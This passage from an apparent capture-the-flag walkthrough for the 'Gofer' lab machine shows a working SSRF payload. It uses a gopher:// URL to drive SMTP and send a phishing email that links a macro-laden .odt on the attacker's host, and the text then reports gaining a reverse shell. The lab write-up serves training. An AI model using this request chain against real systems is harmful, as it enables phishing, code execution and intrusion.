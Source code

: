 ![Auto start macro](/assets/img/Gofer/Gofer_09.png)
Now save the macro and the file should be ready to go 

Then we send the same request as before only now we point it to our file that has the malicious macro in it

```
n1Mp0rTeKwa /index.php?url=gopher://gofer.htb:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20http://10.10.14.54/Calico.odt%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a HTTP/1.1
Host: proxy.gofer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic Og==
```

A few minutes later we get our reverse shell as jhudson. However we don't have the user flag yet we still got to laterally move to another user
